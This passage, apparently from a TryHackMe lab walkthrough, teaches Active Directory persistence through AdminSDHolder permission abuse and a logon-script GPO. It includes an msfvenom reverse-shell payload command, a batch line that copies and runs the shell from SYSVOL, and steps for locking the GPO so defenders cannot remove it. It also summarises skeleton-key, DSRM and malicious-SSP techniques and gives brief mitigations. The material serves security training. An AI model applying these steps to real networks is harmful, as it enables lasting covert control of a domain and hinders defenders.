        $RootDSE.SetInfo()
    }
    catch{
        throw "Can't invoke SDProp on $($DomainObject.PdcRoleOwner.Name) !"
    }
}
```

```
PS > Import-Module .\Invoke-ADSDPropagation.ps1
PS > Invoke-ADSDPropagation
```

Once done, give it a minute and then review the security permissions of a Protected Group such as the Domain 
Admins group (you can use the search command to find this group)

As can be seen, our low privilege user has full control over the group. You can verify that this will 
continue to propagate by removing your user from the security permissions and rerunning the PowerShell 
script. Your user will be added again. Although we have permissions to modify the group, it does not 
automatically add us to the group. Using our new permissions we can add ourselves to the group.

**It Is Going Downhill For The Blue Team**

Imagine combining this with the nesting groups of the previous task. Just as the blue team finished revoking 
your access through numerous group changes, 60 minutes later, you can just do it all again.

Unless the blue team understands that the permissions are being altered through the AdminSDHolder group, 
they would be scratching their heads every 60 minutes. Since the persistence propagates through a legitimate 
AD service, they would most likely be none the wiser every time it happens.

If you really want to persist, you can grant full control to the Domain Users group in the AdminSDHolder 
group, which means any low-privileged user would be granted full control over all Protected Groups. 

Combining this with a full DC Sync means the blue team will have to reset every single credential in the 
domain to flush us out completely.

### Persistence through GPOs

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all 
domain-joined machines. This includes configuration such as membership to restricted groups, firewall and AV 
configuration, and which scripts should be executed upon startup.

While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across 
the entire estate. What is even worse is that the attacker can often hide the Group Policy Object in such a 
way that it becomes almost impossible to remove it.

**Domain Wide Dominance (Persistance)**

The following are some common GPO persistence techniques (hooks):

- Restricted Group Membership - This could allow us administrative access to all hosts in the domain
- Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to 
a host in the domain.

There are many different hooks that can be deployed. You can play around with GPOs to learn about other 
hooks. Since we already used the first hook, Restricted Group Membership, let's now focus on the second 
hook.

While having access to all hosts are nice, it can be even better by ensuring we get access to them when 
administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins 
OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

**Preparation**

Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will 
execute our shell. Let's start by generating a basic executable shell that we can use:

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > shell.exe`

Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more 
stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it 
once a user authenticates. Create the following script:

`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\adrian.boyle.shell.exe C:\tmp\adrian.boyle_shell.exe && timeout /t 20 && C:\tmp\adrian.boyle_shell.exe`

You will see that the script executes three commands chained together with &&. The script will copy the 
binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the 
binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:

`scp adrian.boyle_* za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into 
a jump server and use a `runas` window running as the Administrator for the next steps.

**GPO Creation**

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on File->Add/Remove Snap-in...
3. Select the Group Policy Management snap-in and click Add
4. Click OK

While we can technically write our contents to the Default Domain Policy, which should propagate to all AD 
objects, we will take a more narrow approach for the task just to show the process. You can play around 
afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a 
GPO in this domain, and Link it here. Give your GPO a name such as `username - persisting GPO`

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there 
is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written 
a policy that will remove our changes. Now you can right-click on your policy and select edit

Let's get back to our Group Policy Management Editor:

1. Under User Configuration, expand Policies->Windows Settings.
2. Select Scripts (Logon/Logoff).
3. Right-click on Logon->Properties
4. Select the Scripts tab.
5. Click Add->Browse.

Navigate to where we stored our Batch and binary files and select your Batch file as the script and click 
Open and OK. Click Apply and OK. This will now ensure that every time one of the administrators (tier 2, 1, 
and 0) logs into any machine, we will get a callback.

In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and 
authenticate to a server. Once done, remember to start your MSF multi-handler, and let's test it out by 
RDPing into THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you 
should get a callback on your multi-handler.

*Note: You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that 
only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign 
out as shown below in order to terminate the session. This will ensure that a Logon event is generated when 
you reauthenticate*

**Hiding in Plain Sight**

Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove 
our persistence. Go back to your MMC windows, click on your policy and then click on Delegation

By default, all administrators have the ability to edit GPOs. Let's remove these permissions

1. Right-Click on ENTERPRISE DOMAIN CONTROLLERS and select Edit settings, delete, modify security.
2. Click on all other groups (except Authenticated Users) and click Remove.

You should be left with delegation that looks like this


Click on Advanced and remove the CREATOR OWNER from the permissions

By default, all authenticated Users must have the ability to read the policy. This is required because 
otherwise, the policy could not be read by the user's account when they authenticate to apply User policies. 
If we did not have our logon script, we could also remove this permission to make sure that almost no one 
would be able to read our Policy.

We could replace Authenticated Users with Domain Computers to ensure that computers can still read and apply 
the policy, but prevent any user from reading the policy. Let's do this to test, but remember this can 
result in you not getting a shell callback upon authentication since the user will not be able to read the 
script, so make sure to test your shell before performing these steps.

There is no going back after this:

1. Click Add.
2. Type Domain Computers, click Check Names and then OK.
3. Select Read permissions and click OK.
4. Click on Authenticated Users and click Remove.

Right after you perform these steps, you will get an error that you can no longer read your own policy

You can also see on the sidebar that we can no longer read this policy

By performing these steps, we can ensure that even with the highest level of permissions, the blue team 
would not be able to remove our GPO unless they impersonated the machine account of a Domain Controller. 

This makes it extra hard to firstly discover, and even if they discover the GPO, it would be incredibly hard 
to remove. We don't even have the required permissions to interface with our policy anymore, so one will 
have to stay there until a network reset is performed. You can verify that the GPO is still applied by 
RDPing into one of the THMSERVERS.

### Conclusion

There are several different ways that we can persist in AD. Some of these techniques persist better than 
others. In order to ensure that your persistence cannot be removed by the blue team, you will have to think 
creatively about your persistence. Furthermore, you should not wait until the full domain compromise to 
deploy persistence. After each round of lateral movement and privilege escalation, persistence should be 
deployed.

**Additional Persistence Techniques**

In this network, we covered several techniques that can be used to persist in AD. This is by no means an 
exhaustive list. Here is a list of persistence techniques that also deserve mention:

- [Skeleton keys](https://stealthbits.com/blog/unlocking-all-the-doors-to-active-directory-with-the-skeleton-key-attack/) - Using Mimikatz, we can deploy a skeleton key. Mimikatz created a default password that 
will work for any account in the domain. Normal passwords will still work, making it hard to know that this 
attack has taken place. This default password can be used to impersonate any account in the domain.

- [Directory Service Restore Mode (DSRM)](https://adsecurity.org/?p=1714) - Domain controllers have an internal break glass administrator 
account called the DSRM account. This password is set when the server is promoted to a DC and is seldom 
changed. This password is used in cases of emergencies to recover the DC. An attacker can extract this 
password using Mimikatz and use this password to gain persistent administrative access to domain controllers 
in the environment.

- [Malicious Security Support Provider (SSP)](https://adsecurity.org/?p=1760) - Exploiting the SSP interface, it is possible to add new SSPs. 
We can add Mimikatz's mimilib as an SSP that would log all credentials of authentication attempts to a file. 
We can specify a network location for logging, which would allow mimilib to send us credentials as users 
authenticate to the compromised host, providing persistence.

- [Computer Accounts](https://adsecurity.org/?p=2753) - The passwords for machine accounts are normally rotated every 30 days. However, we can 
alter the password of a machine account which would stop the automatic rotation. Together with this, we can 
grant the machine account administrative access to other machines. This will allow us to use the computer 
account as a normal account, with the only sign of the persistence being the fact that the account has 
administrative rights over other hosts, which is often normal behaviour in AD, so that it may go undetected.

We should also note that this room focussed on persistence techniques in AD. Several local persistence 
techniques can also allow for persistence on hosts. If these hosts are domain joined, it will allow for 
persistence in AD as well.

**Mitigations**

AD persistence can be a pain to defend against. In certain cases, the persistence can be so deeply rooted 
that a complete domain rebuild is required. However, there are a couple of things that we can do to detect 
deployed persistence:

- Anomalous account logon events are the most common alert for persistence. Any time credentials break the 
tiering model, it can be as a result of persistence.

- For each of the persistence techniques mentioned, specific detection rules can be written, such as cases 
when a machine account's password changes, ACLs are permissively updated, or new GPOs are created.

- The best defence against persistence is to protect privileged resources. Although low privileged access 
can be used to deploy persistence, the truly scary techniques only become available once an attacker has 
acquired privileged access to the domain.
